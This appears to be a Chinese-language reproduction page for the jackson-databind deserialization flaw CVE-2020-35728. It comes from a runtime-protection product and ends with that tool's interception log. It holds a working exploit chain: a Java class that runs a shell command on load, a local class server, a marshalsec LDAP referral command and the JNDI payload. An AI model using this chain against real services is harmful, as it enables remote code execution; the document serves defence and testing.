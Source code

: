 # CVE-2020-35728

## 漏洞简介

jackson-databind是一套开源java高性能JSON处理器。jackson-databind存在一处反序列化远程代码执行漏洞，该漏洞是由于com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool组件库存在不安全的反序列化，导致攻击者可以利用漏洞实现远程代码执行

##  影响版本

FasterXML jackson-databind 2.x < 2.9.10.8


## 漏洞复现


### 命令执行类构建
```java
public class LifExp {
    static {
        try {
            String[] cmd = {"bash", "-c", "touch /tmp/cve-2020-35728.txt"};
            java.lang.Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {

    }
}
```
并将上述类编译为 `LifExp.class`

### 搭建静态 web 服务

```py
python2 -m SimpleHTTPServer 4444
```

并能够下载 LifExp.class 文件

![img.png](../.vuepress/public/images/case/CVE-2020-35728/download_LifExp_class.png)


### LDAP 服务准备
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:4444/#LifExp 1088
```

### 准备一个有漏洞的服务

```java
import com.fasterxml.jackson.databind.ObjectMapper;

public class CVE_2020_35728 {
    public static void main(String[] args) throws Exception {
        String payload = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1088/LifExp\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

 maven 依赖
```
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.glassfish.web/jakarta.servlet.jsp.jstl -->
        <dependency>
            <groupId>org.glassfish.web</groupId>
            <artifactId>jakarta.servlet.jsp.jstl</artifactId>
            <version>2.0.0</version>
        </dependency>


        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
```

### 复现结果

![img.png](../.vuepress/public/images/case/CVE-2020-35728/CVE-2020-35728_result.png)


## RASP防护

### 拦截结果
![img.png](../.vuepress/public/images/case/CVE-2020-35728/CVE-2020-35728_rasp_log.png)

### 拦截结果分析

执行的命令

```
touch /tmp/cve-2020-35728.txt
```
调用栈

![img.png](../.vuepress/public/images/case/CVE-2020-35728/cve-2020-35728_rasp_stack.png)
